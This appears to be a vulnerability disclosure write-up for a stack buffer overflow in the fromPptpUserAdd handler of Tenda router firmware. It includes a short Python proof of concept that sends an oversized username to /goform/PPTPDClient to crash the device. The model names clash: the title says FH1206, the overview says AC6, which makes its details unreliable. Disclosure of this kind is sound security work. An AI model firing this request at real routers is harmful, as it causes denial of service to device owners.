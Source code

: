 # Stack Overflow Vulnerability in Tenda FH1206 Firmware

## Vulnerability Overview
There is a stack-based buffer overflow vulnerability in the Tenda AC6 firmware version 15.03.05.16_multi.
The vulnerability exists in the fromPptpUserAdd function of the firmware. Specifically, the username parameter, which is obtained via the HTTP request using websGetVar, is copied directly into a fixed-size buffer without proper length validation.

In the vulnerable function, the username value (stored in variable Var) is later used in multiple sprintf calls to construct configuration strings (e.g., sprintf(s_4, "1;%d;%s;%s;%s;%s;%s;%s", i, Var, ...)). Since the destination buffer s_4 has a fixed size of 1024 bytes and no boundary checks are performed, an attacker can provide an overly long username input to trigger a buffer overflow.

This flaw allows a remote attacker to send a specially crafted HTTP request with a malicious username parameter, causing a stack-based buffer overflow and leading to a device crash (DoS). In certain scenarios, it could potentially be exploited to achieve arbitrary code execution.

## Root Cause

The vulnerability arises from improper sanitization of user input and unsafe use of sprintf when handling the username parameter, which directly overwrites stack memory.
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd5.png)
![Root Cause of Stack Overflow Vulnerability](fromPptpUserAdd6.png)

## Affected Versions
- Tenda FH1206 V02.03.01.35


## Proof of Concept (PoC)

```python
import requests

host_port = "http://192.168.101.50:8008"
url = "/goform/PPTPDClient"

data = {"username": "E"*4000, "flag": "0"}

response = requests.post(host_port + url, data=data)

# Print the response code and content
print("Response status code: ", response.status_code)
print("Response content: ", response.text)
```
![PoC](fromPptpUserAdd2.png)
### PoC Run Results:
![Results](fromPptpUserAdd1.png)




## Mitigation
- Apply the latest firmware update from Tenda to address this issue.
- Ensure proper input validation and sanitization to prevent stack overflow attacks.

